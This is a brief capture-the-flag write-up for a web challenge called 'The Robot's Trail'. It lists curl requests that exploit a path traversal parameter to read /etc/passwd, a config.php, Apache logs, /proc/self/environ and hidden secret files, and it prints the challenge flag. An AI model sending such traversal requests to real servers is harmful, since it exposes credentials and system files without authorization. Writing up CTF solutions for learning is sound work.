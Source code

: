 # THE ROBOT'S TRAIL
In this challenge I have to open a sequence of secret files to get the flag.

## My solve
**Flag:** `citadel{p4th_tr4v3rs4l_m4st3ry_4ch13v3d}`

- First I inspected the code of the intial webpage to see a hiiden <div> tag that took me to another webpage.
- There I got a file path as a clue and then ran the following commands in my ubuntu terminal
```bash
curl -i 'https://therobotstrail.citadel.cryptonitemit.in/file?path=../../etc/passwd'

curl -i "https://therobotstrail.citadel.cryptonitemit.in/file?path=/var/www/html/config.php"

curl -i "https://therobotstrail.citadel.cryptonitemit.in/file?path=/var/log/apache2/access.log"

curl -i "https://therobotstrail.citadel.cryptonitemit.in/file?path=/proc/self/environ"

curl -i "https://therobotstrail.citadel.cryptonitemit.in/file?path=/home/ctf/.secret"

curl -i "https://therobotstrail.citadel.cryptonitemit.in/file?path=/home/ctf/.secret/flag.txt"
```
## What I learned
Through this challenge I learnt that:
-  The most basic use of curl is to retrieve content from a URL and display it in the terminal.



